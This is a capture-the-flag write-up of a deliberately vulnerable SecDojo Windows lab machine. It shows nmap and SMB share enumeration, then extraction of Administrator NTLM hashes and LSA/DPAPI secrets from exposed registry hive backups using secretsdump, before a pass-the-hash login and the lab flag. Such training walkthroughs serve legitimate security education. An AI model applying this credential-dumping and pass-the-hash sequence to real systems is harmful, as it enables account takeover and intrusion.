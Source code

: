 ```yaml
---
title: "SecDojo - Westeros Lab"
author: [Sesco]
subtitle: "Shared machine write up"
date: "2022-12-29"
keywords: [Windows, Security, CTF, Hacking]
lang: "en"
titlepage: true
titlepage-text-color: "FFFFFF"
titlepage-color: "243763"
titlepage-rule-color: "8ac53e"
...
```



# Information

- **Name:** Westeros Lab - Shared Machine
- **Profile:** SecDojo
- **Difficulty:** Easy
- **Description:** Westeros is a network of vulnerable Windows servers. Each box suffers from a severe vulnerability that if properly exploited, will grant you administrator access and get you the root flag located at the Administrator desktop folder.

# Enumeration

## Nmap

We begin our reconnaissance by running an Nmap scan checking services and their versions also checking default scripts and testing for vulnerabilities.


```console
$ nmap -sV -sC -Pn 172.16.4.29
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-28 15:18 UTC
Nmap scan report for 172.16.4.29
Host is up (0.00068s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds  Windows Server 2016 Datacenter 14393 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: SHARED
|   NetBIOS_Domain_Name: SHARED
|   NetBIOS_Computer_Name: SHARED
|   DNS_Domain_Name: SHARED
|   DNS_Computer_Name: SHARED
|   Product_Version: 10.0.14393
|_  System_Time: 2022-12-28T15:18:31+00:00
| ssl-cert: Subject: commonName=SHARED
| Not valid before: 2022-12-27T14:20:19
|_Not valid after:  2023-06-28T14:20:19
|_ssl-date: 2022-12-28T15:19:11+00:00; 0s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-12-28T15:18:36
|_  start_date: 2022-12-28T14:20:19
| smb-os-discovery: 
|   OS: Windows Server 2016 Datacenter 14393 (Windows Server 2016 Datacenter 6.3)
|   Computer name: SHARED
|   NetBIOS computer name: SHARED\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-12-28T15:18:34+00:00
|_clock-skew: mean: 0s, deviation: 1s, median: 0s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.71 seconds
zsh: segmentation fault  nmap -sV -sC -Pn 172.16.4.29
```

From the above output we can see that ports, **135**, **445** and **3389** are the open ports also we found that the running system is **Windows Server 2016 Datacenter 6.3**.

To get more informations about the machine I used a script in nmap that discovers available smb shares.


```console
$ nmap -Pn -p 445 --script smb-enum-shares 172.16.4.29
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-28 15:23 UTC
Nmap scan report for 172.16.4.29
Host is up (0.00030s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\172.16.4.29\ADMIN$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Remote Admin
|     Anonymous access: <none>
|     Current user access: <none>
|   \\172.16.4.29\Backup: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Anonymous access: READ
|     Current user access: READ
|   \\172.16.4.29\C$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Default share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\172.16.4.29\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: Remote IPC
|     Anonymous access: READ/WRITE
|_    Current user access: READ/WRITE

Nmap done: 1 IP address (1 host up) scanned in 23.50 seconds
```

# Exploitation

There is four shares available, two of them can be accessed anonymously let's try.


![](./Figure%201.png)
**Figure 1:** Inside of backup share

![](./Figure%202.png)
**Figure 2:** Determining file type

Those are Windows registry keys which generally are windows configurations, I've noticed the existence of **sam.save** sam is Security Account Manager which normally stores local secrets and other two files can help us get LSA secrets all we have to do is parse them together.


![](Figure%203.png)
**Figure 3:** Downloading those files into our PWN machine

```console
$ secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x0c59245f05ca8e4b2f927c9562fb77dc
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x0c59245f05ca8e4b2f927c9562fb77dc
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e499e821990727fe730fe85694bc500c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x45522ee9daebd9ea79ae4dbc335effe7f5839c63
dpapi_userkey:0x66c8f460e91dd6291fd4c09b474fe1909b711fa0
[*] NL$KM 
 0000   2E 74 ED 55 62 CB 0C 23  83 3D C6 56 51 CE B2 93   .t.Ub..#.=.VQ...
 0010   63 BC 5F C9 59 8B 25 DB  1F FC F9 A2 26 50 31 60   c._.Y.%.....&P1`
 0020   C4 67 C4 47 3B EA D7 01  86 9B 67 31 70 F9 30 A1   .g.G;.....g1p.0.
 0030   49 99 F2 29 6D 19 85 D4  F2 01 BE C0 65 26 19 20   I..)m.......e&. 
NL$KM:2e74ed5562cb0c23833dc65651ceb29363bc5fc9598b25db1ffcf9a226503160c467c4473bead701869b673170f930a14999f2296d1985d4f201bec065261920
[*] Cleaning up... 
```

Done parsing the keys that's our password hashes extracted, and now let's use Pass-The-Hash attack to get into our machine.

![](./Figure%204.png)
**Figure 4:** *Inside shared machine*

## Root Flag

![](./Figure%205.png)
**Figure 5:** *Administrator Desktop*

**Flag:** **`Shared_Sesco-xba5htto144lypq0dmaj1itmeoj6wb4e`**